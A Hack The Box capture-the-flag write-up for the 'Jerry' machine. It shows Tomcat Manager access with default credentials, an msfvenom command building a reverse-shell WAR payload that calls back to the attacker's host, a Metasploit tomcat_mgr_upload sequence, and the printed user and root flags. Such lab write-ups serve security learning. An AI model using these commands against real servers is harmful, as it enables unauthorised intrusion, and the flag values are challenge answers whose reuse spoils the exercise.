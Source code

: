 # hackthebox jerry writeup

[link to the box](https://app.hackthebox.com/machines/Jerry)

1. [scanning](#scanning)
2. [getting-manager](#getting-manager)
3. [exploiting](#exploiting)
   1. [msfvenom](#msfvenom)
   2. [msfconsole](#msfconsole)
4. [pwning](#pwning)


# scanning

scan the target for open ports:

this box has a static ip of 10.10.10.95

```bash
$ nmap -Pn -sV 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

this looks like a webpage that we can try to visit. lets connect to it!

# getting-manager

http://10.10.10.95:8080/

![tomcat homepage](img/tomcat-home.png)

the fancy tomcat web server looks like it has a manager portal. lets try accessing it with some common usernames and passwords:

`root:root root:toor admin:password admin:1234`

...none of which work, obvoiusly. we do get to see a nice 'access denied' webpage though.

![access denied](img/access-denied.png)

which happens to highlight a default username and password for tomcat, `tomcat:s3cret`. lets try it.

![tomcat manager panel](img/tomcat-manager.png)

and we have access to manager now! what a dumb way to get to it. from manager, we are able to upload our own `.WAR` files to the server.

upon further research, these can be executed and therefore used to create a reverse shell! lets explore the 3 methods we have at our disposal for this.

# exploiting

## msfvenom

an easy way to get a reverse shell would be to use `msfvenom` to create a payload that we deploy manually on the server. here is a short walkthrough:

use `msfvenom` to create payload using the command:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your local ip> LPORT=<any sane port> -f war > jsp-shell-reverse-tcp.war
```

you can get `<my local ip>` on most linux distributions by running `ip addr list | grep "tun"` and finding the local ip next to `inet` (ignoring subnet mask). you need the local ip since the vpn into hackthebox puts you on the machine's local network.

once the payload has been created, start netcat to recieve the reverse shell.

```bash
nc -lvp <previously chosen sane port>
```

upload the payload through the manager webportal, then click on its file in the 'applications' table.

congrats! you now have a reverse shell.

## msfconsole

the simplest and most abstract method would be to use `exploit/multi/http/tomcat_mgr_upload` in `msfconsole` to create our reverse shell. here is a short walkthrough:

```bash
$ msfconsole
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 payload(...) > options
msf6 payload(...) > set RHOSTS 10.10.10.95
msf6 payload(...) > set RPORT 8080
msf6 payload(...) > set HttpUsername tomcat
msf6 payload(...) > set HttpPassword s3cret
msf6 payload(...) > set LHOST <my local ip>
msf6 payload(...) > set LPORT <any sane port>
msf6 payload(...) > exploit
```

you can get `<my local ip>` on most linux distributions by running `ip addr list | grep "tun"` and finding the local ip next to `inet` (ignoring subnet mask). you need the local ip since the vpn into hackthebox puts you on the machine's local network.

congrats! you now have a reverse shell on the target machine.

# pwning

since we are now properly in a windows shell, we can start looking around for flags.

(if you are in an meterpreter shell, run `shell` to open cmd)

first, run `whoami` to see what permissions we have.

![we are root](img/whoami.png)

oh. we are administraror. no escalation needs to occur.

now lets search for the flags then!

search the system for flag files:

```bash
cd ..              # get to root of disk
where /r c: *flag* # nothing
where /r c: *.txt  # something!
```

using `where` in windows, we are able to find `c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`!

use `type` to print the contents of the file

```bash
type c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

congrats! youre winner.
